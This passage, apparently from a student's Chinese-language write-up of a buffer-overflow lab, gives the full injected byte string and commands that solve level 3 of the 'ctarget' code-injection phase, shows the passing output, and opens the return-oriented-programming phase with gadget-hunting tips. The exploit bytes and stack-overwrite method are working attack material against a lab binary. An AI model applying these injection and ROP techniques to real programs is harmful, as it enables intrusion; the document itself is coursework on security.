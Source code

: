 此时发现我们的放在缓冲区的东西全数被覆写，从而我们得知不能再在缓冲区存放我们的字符数组，于是只能另寻他处。

注意到在 `0x556346b8` 这个地址开始，似乎存在一些多余的 0，于是一个很自然的想法是，我们能否将字符数组覆写到这里。

虽然 phase2 中我们知道不能再在溢出的 4 个字节（即第一次控制的 `ret`）后再写什么，因为会影响原有函数的帧栈的一些东西，但是我们如果保存原本存放的东西不变，只覆写 `0x556346b8` 的这些看上去不太有用的 0，也许就可能有效？

注：后续经过尝试，发现覆盖 `getbuf` 返回地址以及栈中更早的信息不会影响程序后续进行，因为成功调用 `touch3` 后，程序就不会再返回到先前的函数，而原有的栈帧也没有保留的意义了。

于是我们首先将 cookie 转为 ascii 码 `31 31 61 36 37 36 31 30`，然后控制我们的输入，除了第一次 `ret` 需要更改的四个字节外，保持原有字节不动，直至溢出至 `0x556346b8` ，才再次加入我们需要覆写的字节，并调整存在 %rdi 中的数值为 `0x556346b8` ，于是我们得到我们实际应当输入的字节码：

```asm
48 c7 c7 b8 46 63 55 68
7d 20 40 00 c3 3f 3f 3f
3f 3f 3f 3f 3f 3f 3f 3f
88 46 63 55 00 00 00 00
09 00 00 00 00 00 00 00
18 28 40 00 00 00 00 00
31 31 61 36 37 36 31 30
```

再依次运行：

```bash
./hex2raw < p3.txt > p3a.txt
./ctarget -i p3a.txt
```

于是再次大功告成！

```text
Cookie: 0x11a67610
Touch3!: You called touch3("11a67610")
Valid solution for level 3 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

## Phase4

这题踩了许多的坑：

- 只有 `popq` 可以将你溢出的信息注入到寄存器中（`movl/q` 不行）
- 你必须要对齐 16 字节（而不是 8 字节！）栈指针，即使得任何时候，`%rsp` 的最后一位都要是 0，否则会引发段错误
- ~~实在在 `farm.c` 中找 gadget 找不到的话，也可以直接找找 `rtarget.s`，但据助教所说，那个 binary 里并不是每一个 section 都是固定地址的，所以如果用了非固定地址的 gadget 会导致问题~~
  如果用了 farm 以外的 gadget，可能导致本地过了但远程测试服务器没分，再找找！
- 在具体的语句（`popq / movl/q`）和 `ret`（`c3`）中，可能存在 `0x90`（`NOP`）

**请务必先全部看完，因为前面写的很多步骤是错误的！！！后面才一边踩坑一边改正！！！**

首先，因为我们要使用 ROP 攻击，我们需要将 farm.c 转为字节码：

```bash
gcc -c farm.c
objdump -d farm.o > farm.s
```
